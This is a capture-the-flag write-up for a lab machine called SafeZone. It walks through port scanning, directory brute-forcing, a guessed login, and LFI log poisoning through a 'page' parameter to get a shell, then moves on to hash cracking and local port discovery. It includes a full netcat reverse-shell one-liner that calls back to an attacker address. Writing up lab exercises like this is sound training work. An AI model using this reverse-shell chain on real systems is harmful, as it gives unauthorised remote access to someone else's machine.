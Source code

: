 # SafeZone

This was an interesting and thought-provoking room!

So,let's start!

# Enumeration
 Using nmap I founded 2 open ports : 22 (for ssh) and 80 (for http service)

 Command used: 
> nmap -sS -Pn -T4 -vvv <ip>

![nmap](https://user-images.githubusercontent.com/78094309/117653814-834ba580-b1b2-11eb-82a8-2824c38ebb7b.png)


Now, looking after port 80, I used gobuster and thus got the following directories:
![gobuster](https://user-images.githubusercontent.com/78094309/117653895-a24a3780-b1b2-11eb-8017-20bf507ef83c.png)

On checking index.php, Got a login form:

![loging_page](https://user-images.githubusercontent.com/78094309/117654823-ea1d8e80-b1b3-11eb-9eb7-978b8ba0a6e1.png)


On checking further directories and enumeration i got the hint for the password:
![~files](https://user-images.githubusercontent.com/78094309/117655056-32d54780-b1b4-11eb-99da-771cb0f581c2.png)

So, I made a script and thus found out the password:

![script](https://user-images.githubusercontent.com/78094309/117655127-4bddf880-b1b4-11eb-97c2-072ad49f3ed2.png)

> password: admin44admin

Now,checking the source-code ,a hint was given : use *page* as GET parameter

![webpage-get](https://user-images.githubusercontent.com/78094309/117655350-919ac100-b1b4-11eb-93a0-c857be2f174b.png)


So, I tried opening a shell using the following command (passed as get parameter):

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f

Using any online URL encoder tool,I encoded this string and passed as GET parameter and thus was able to obtain a shell.
![nc_alternative](https://user-images.githubusercontent.com/78094309/117655622-f0f8d100-b1b4-11eb-99e7-b5a0e492f2b4.png)

Used burp for passing GET request:
![burp](https://user-images.githubusercontent.com/78094309/117655661-ff46ed00-b1b4-11eb-92dc-9f568f0d7595.png)

for reference, you can read the concept here: https://www.hackingarticles.in/apache-log-poisoning-through-lfi/

![shell](https://user-images.githubusercontent.com/78094309/117655795-28677d80-b1b5-11eb-9333-fbe54dcb96f9.png)



After getting the shell lets convert it into a stable tty shell by using following commands:

```py
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
![](safezone1.png)

I searched for the user flag but there were only previous hints that we got. But then we got the password hash for the user files and after cracking it using john we came to know that its password is `magic`
![](safezone2.png)

So now we can login as files through ssh!
After finding a bit i used following command to check if there is possibility for port forwading and YES there were two ports running locally...
```py
ss -tulwn
```
![](safezone3.png)

I tried 3336 port but there was nothing but port 8000 gave us positive response!
![](safezone4.png)

![](safezone5.png)

So we ran gobuster on it and found a index.html directory which was a login page.
![](safezone6.png)

![](safezone7.png)

And its source contained a login.js directory which gave us the creadentials.
So we succesfully loged in....

![](safezone8.png)
